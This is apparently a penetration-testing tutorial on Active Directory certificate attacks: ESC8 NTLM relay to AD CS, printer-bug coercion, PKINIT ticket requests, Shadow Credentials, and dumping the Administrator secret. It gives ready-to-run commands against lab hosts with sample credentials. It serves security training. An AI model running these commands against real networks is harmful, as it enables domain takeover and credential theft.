

[`PKINIT`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pkca/d0cf1763-3541-4008-a75f-a577fa5e8c5b), short for `Public Key Cryptography for Initial Authentication`, is an extension of the Kerberos protocol that enables the use of public key cryptography during the initial authentication exchange. It is typically used to support user logons via smart cards, which store the private keys. `Pass-the-Certificate` refers to the technique of using X.509 certificates to successfully obtain Ticket Granting Tickets (TGTs). This method is used primarily alongside [attacks against Active Directory Certificate Services (AD CS)](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf), as well as in [Shadow Credential](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attacks.

### AD CS NTLM Relay Attack (ESC8)

`ESC8—as` described in the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) paper—is an NTLM relay attack targeting an ADCS HTTP endpoint. ADCS supports multiple enrollment methods, `including web enrollment`, which by default occurs over HTTP. A certificate authority configured to allow web enrollment typically hosts the following application at `/CertSrv`:



Attackers can use Impacket’s [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) to listen for inbound connections and relay them to the web enrollment service using the following command:

```bash
impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```

One way to force machine accounts to authenticate against arbitrary hosts is by exploiting the [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py). 

```bash
python3 printerbug.py INLANEFREIGHT.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12

[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attempting to trigger authentication via rprn RPC at 10.129.234.109
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

We can now perform a `Pass-the-Certificate` attack to obtain a TGT as `DC01$`. One way to do this is by using [`gettgtpkinit.py`](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). First, let's clone the repository and install the dependencies:

```bash
git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```

```bash
pip3 install -I git+https://github.com/wbond/oscrypto.git
Defaulting to user installation because normal site-packages is not writeable
Collecting git+https://github.com/wbond/oscrypto.git
<SNIP>
Successfully built oscrypto
Installing collected packages: asn1crypto, oscrypto
Successfully installed asn1crypto-1.5.1 oscrypto-1.3.0
```

```bash
python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'inlanefreight.local/dc01$' /tmp/dc.ccache
```

```bash
export KRB5CCNAME=/tmp/dc.ccache
impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'INLANEFREIGHT.LOCAL/DC01$'@DC01.INLANEFREIGHT.LOCAL
```

### Shadow Credentials (msDS-KeyCredentialLink)

[Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) refers to an Active Directory attack that abuses the [msDS-KeyCredentialLink](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attribute of a victim user. This attribute stores public keys that can be used for authentication via PKINIT. In BloodHound, the `AddKeyCredentialLink` edge indicates that one user has write permissions over another user's `msDS-KeyCredentialLink` attribute, allowing them to take control of that user.


We can use [pywhisker](https://github.com/ShutdownRepo/pywhisker) to perform this attack from a Linux system. The command below generates an `X.509 certificate` and writes the `public key` to the victim user's `msDS-KeyCredentialLink` attribute:

```bash
pywhisker --dc-ip 10.129.234.109 -d INLANEFREIGHT.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add
```

```bash
python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 INLANEFREIGHT.LOCAL/jpinkman /tmp/jpinkman.ccache
```

```bash
export KRB5CCNAME=/tmp/jpinkman.ccache
klist
```

```bash
evil-winrm -i dc01.inlanefreight.local -r inlanefreight.local
```

### NO PKINIT?

In certain environments, an attacker may be able to obtain a certificate but be unable to use it for pre-authentication as specific victims (e.g., a domain controller machine account) due to the KDC not supporting the appropriate EKU. The tool [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) was created for such situations. It can be used to authenticate against LDAPS using a certificate and perform various attacks (e.g., changing passwords or granting DCSync rights).
